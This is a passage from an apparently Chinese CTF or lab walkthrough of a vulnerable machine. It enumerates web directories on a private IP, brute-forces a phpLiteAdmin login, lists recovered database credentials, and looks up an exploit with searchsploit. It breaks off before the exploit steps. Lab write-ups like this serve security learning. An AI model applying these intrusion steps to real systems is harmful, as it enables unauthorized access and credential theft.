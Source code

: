 得到的网址

```
http://192.168.81.142/dbadmin/
http://192.168.81.142/img/
http://192.168.81.142/vendor/
```

经过测试发现

```
http://192.168.81.142/dbadmin/
```

这个网址中有一个.php文件

![image-20220315154211595](https://gitee.com/xxb667/img/raw/master/img/image-20220315154211595.png)

点进去后有个密码登录

```
http://192.168.81.142/dbadmin/test_db.php
```

![image-20220315154309212](https://gitee.com/xxb667/img/raw/master/img/image-20220315154309212.png)

暴力破解密码

得到密码

```
admin
```

得到两个账户的密码

```
用户名：root  密码：34kroot34
用户名：zico  密码：zico2215@
```

![image-20220315155428444](https://gitee.com/xxb667/img/raw/master/img/image-20220315155428444.png)

## 2.3 漏洞利用

phpLiteAdmin getshell 

kali本地搜索相关漏洞信息

```
searchsploit phpLiteAdmin
```

![image-20220315161217756](https://gitee.com/xxb667/img/raw/master/img/image-20220315161217756.png)

```
cat /usr/share/exploitdb/exploits/php/webapps/24044.txt
```

打开文件可以看到我们需要3步
